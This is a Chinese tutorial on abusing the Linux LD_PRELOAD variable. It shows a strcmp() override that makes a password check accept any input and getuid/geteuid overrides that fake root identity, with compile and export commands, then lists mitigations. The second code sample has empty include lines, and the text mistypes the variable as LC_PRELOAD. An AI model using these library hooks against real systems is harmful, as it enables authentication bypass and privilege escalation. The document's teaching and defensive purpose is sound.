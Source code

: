 # linux使用LD_PRELOAD变量黑客
### 1.引入话题
也许这个话题并不新鲜，因为LD_PRELOAD所产生的问题由来已久。不过，在这里，我还是想讨论一下这个环境变量。因为这个环境变量所带来的安全问题非常严重，值得所有的Unix下的程序员的注意。
**链接**
所谓链接，也就是说编译器找到程序中所引用的函数或全局变量所存在的位置。
**动态链接**
动态链接则不会把函数编译到可执行文件中，而是在程序运行时动态地载入函数 库，也就是运行链接。所以，对于动态链接来说，必然需要一个动态链接库。
**静态链接**
静态链接就是把所有所引用到的函数或变量全部地编译到可执行文件中。
**区别**
动态链接库的好处在于，一旦动态库中的函数发生变化，对于可执行程序来说是透明 的，可执行程序无需重新编译。这对于程序的发布、维护、更新起到了积极的作用。对于静态链接的程序来说，函数库中一个小小的改动需要整个程序的重新编译、 发布，对于程序的维护产生了比较大的工作量。当 然，世界上没有什么东西都是完美的，有好就有坏，有得就有失。动态链接所带来的坏处和其好处一样同样是巨大的。因为程序在运行时动态加载函数，这也就为他 人创造了可以影响你的主程序的机会。试想，一旦，你的程序动态载入的函数不是你自己写的，而是载入了别人的有企图的代码，通过函数的返回值来控制你的程序 的执行流程，那么，你的程序也就被人“劫持”了。

### 2.LD_PRELOAD简介
在UNIX的动态链接库的世界中，LD_PRELOAD就是这样一个环境变量，它可以影响程序的运行时的链接（Runtime linker）， 它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和 其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我 们也可以以向别人的程序注入恶意程序，从而达到那不可告人的罪恶的目的。

我们知道，Linux的用的都是glibc，有一个叫libc.so.6的文件，这是几乎所有Linux下命令的动态链接中，其中有标准C的各种函数。对于GCC而言，默认情况下，所编译的程序中对标准C函数的链接，都是通过动态链接方式来链接libc.so.6这个函数库的。

OK。还是让我用一个例子来看一下用LD_PRELOAD来hack别人的程序。

### 3.示例1
下面是一段测试程序(test.c)，我们来劫持strcmp()函数
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

	char passwd[] = "password";

	if (argc < 2) {
        printf("usage: %s \n", argv[0]);
        return;
	}

	if (!strcmp(passwd, argv[1])) {
        printf("Correct Password!\n");
        return;
	}

	printf("Invalid Password!\n");
}
```
在上面这段程序中(hack.c)，我们使用了strcmp函数来判断两个字符串是否相等。下面，我们使用一个动态函数库来重载strcmp函数：
```
#include <stdio.h>
int strcmp(const char *s1, const char *s2)
{
    printf("hack function invoked. s1=<%s> s2=<%s>\n", s1, s2);
        /* 永远返回0，表示两个字符串相等 */
    return 0;
}
```
编译
```
gcc test.c -o test 后，直接运行./test  111   发现结果正常
接着编译
gcc -Wall -fPIC -shared -o hack.so hack.c
```
设置设置LD_PRELOAD变量：（使我们重写过的strcmp函数的hack.so成为优先载入链接库）
       ```  $ export LD_PRELOAD="./hack.so" ```
再次运行./test 123
发现结果竟然是correct

我们可以看到：
* 我们的hack.so中的strcmp被调用了。
* 主程序中运行结果被影响了。如果这是一个系统登录程序，那么这也就意味着我们用任意口令都可以进入系统了。

### 4.示例2
我们知道在Linux上root是一个权限很大的用户，他可以做很多的事情。
我们写一段hack来改变用户获取权限的值。
```
#include
#include
#include

uid_t geteuid( void ) { return 0; }
uid_t getuid( void ) { return 0; }
uid_t getgid( void ) { return 0; }
```
在这里我们可以看到，我们重载了系统调用。于是我们可以通过设置LC_PRELOAD来迫使主程序使用我们的geteuid/getuid/getgid（它们都返回0，也就是Root权限）。这会导致，上述的那个分布式计算平台的软件在提交端A计算机上调用了geteuid得到当前用户ID是0，并把这个用户ID传到了执行端B计算机上，于是B计算机上的Daemon就会调用seteuid(0)，导致我们的程序运行在了Root权限之下。从而，用户取得了超级用户的权限而为所欲为.

### 5.如何避免
不可否认，LD_PRELOAD是一个很难缠的问题。目前来说，要解决这个问题，只能想方设法让LD_PRELOAD失效。目前而言，有以下面两种方法可以让LD_PRELOAD失效。
1）通过静态链接。使用gcc的-static参数可以把libc.so.6静态链入执行程序中。但这也就意味着你的程序不再支持动态链接。
2）通过设置执行文件的setgid / setuid标志。在有SUID权限的执行文件，系统会忽略LD_PRELOAD环境变量。也就是说，如果你有以root方式运行的程序，最好设置上SUID权限。（如：chmod 4755 daemon）

在一些UNIX版本上，如果你想要使用LD_PRELOAD环境变量，你需要有root权限。但不管怎么说，这些个方法目前来看并不是一个彻底的解决方案，只是一个Workaround的方法，是一种因噎废食的做法，为了安全，只能禁用。
